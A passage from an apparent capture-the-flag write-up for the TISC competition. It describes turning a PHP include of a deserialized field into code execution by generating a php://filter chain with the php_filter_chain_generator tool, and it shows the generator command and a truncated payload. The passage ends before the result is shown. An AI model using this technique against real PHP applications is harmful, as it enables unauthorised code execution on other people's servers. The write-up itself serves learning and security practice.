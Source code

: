This is the part that took me two days to figure out.

The `printInfo()` function seems to be the entry point to make use of to get the flag.
```php
public function printInfo()
{
    echo "Name: " . htmlspecialchars($this->name) . "<br>";
    include $this->species . ".txt";
}
```

However, now I am presented with the issue:
```php
ini_set("open_basedir", getcwd());
```

This sets the current working directory (`/app`) as the base directory, preventing any file traversal outside of `/app`.

There is also:
```shell
root@3f2e9c76110c:/app# php -i | grep allow_url_include
allow_url_include => Off => Off
```

This prevents me from running any commands or performing any Remote File Inclusion (RFI) exploits. I tried to run `php://` payloads as well but none of them worked.

I also ended up trying to serialize other objects into the other fields but it was no use since there were no internal classes or libraries I can exploit magic methods with.

This stumped me for quite a long time... that was until 7 hours before **TISC** ended, after just searching to learn more about PHP wrappers:
```cardlink
url: https://github.com/synacktiv/php_filter_chain_generator
title: "GitHub - synacktiv/php_filter_chain_generator"
description: "Contribute to synacktiv/php_filter_chain_generator development by creating an account on GitHub."
host: github.com
favicon: https://github.githubassets.com/favicons/favicon.svg
image: https://opengraph.githubassets.com/219b4ceec5130e0c55545cdd4b76bbc24bbe14bf4fc0e9e8482a9299cc7319bd/synacktiv/php_filter_chain_generator
```

The repository being 3 years old did not give me any hope but I eventually went and tried it anyways to see if it worked. I generated the chain and ended up with a long string of text.
```python
uv run php_filter_chain_generator.py --chain '<?php phpinfo(); ?>'  
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?> (base64 value: PD9waHAgcGhwaW5mbygpOyA/Pg)

php://filter/convert.iconv.UTF8.CSISO2022KR|...[truncated]...|convert.base64-decode/resource=php://temp
```
*The output has been [truncated], with the full length of the payload being 4130 characters*.

Setting this as the `$series` string value and executing the fetch action gave the following output: